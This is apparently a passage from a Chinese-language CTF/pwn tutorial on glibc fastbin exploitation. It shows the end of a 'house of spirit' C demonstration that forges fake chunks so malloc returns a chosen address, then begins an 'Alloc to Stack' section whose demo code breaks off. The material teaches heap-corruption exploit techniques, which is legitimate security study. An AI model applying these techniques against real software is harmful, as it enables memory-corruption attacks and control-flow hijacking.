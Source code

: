    ```c
   
       fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
       fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
       fake_chunks[1] = 0x40; // this is the size
   
       fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
           // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
       fake_chunks[9] = 0x1234; // nextsize
   
       fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
       fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
       a = &fake_chunks[2];
   
       fprintf(stderr, "Freeing the overwritten pointer.\n");
       free(a);
   
       fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
       fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
   }
   ```

### 小总结

可以看出，想要使用该技术 **分配 chunk 到指定地址** ，其实并不需要修改指定地址的任何内容，关键是要能够修改指定地址的**前后的内容**使其可以**绕过对应的检测**。

## Alloc to Stack

### 介绍：

1. 如果你已经理解了前文所讲的 Fastbin Double Free 与 house of spirit 技术，那么理解该技术就已经不成问题了，它们的本质都在于 fastbin 链表的特性：**当前 chunk 的 fd 指针指向下一个 chunk**。
2. 该技术的核心点在于**劫持 fastbin 链表中 chunk 的 fd 指针**，把 fd 指针指向我们想要 **分配的栈上** （在栈上伪造dui），从而实现控制栈中的一些关键数据，比如**返回地址**等。

### 演示：

1. 这次我们把 fake_chunk 置于栈中称为 **stack_chunk**，同时**劫持了 fastbin 链表中 chunk 的 fd** 值，通过把这个 fd 值**指向 stack_chunk** 就可以实现在栈中分配 fastbin chunk。

   ```c
   typedef struct _chunk
   {
       long long pre_size;
       long long size;
       long long fd;
       long long bk;
   } CHUNK,*PCHUNK;
   
   int main(void)
   {
       CHUNK stack_chunk;		//伪造堆
   
       void *chunk1;
       void *chunk_a;
   ```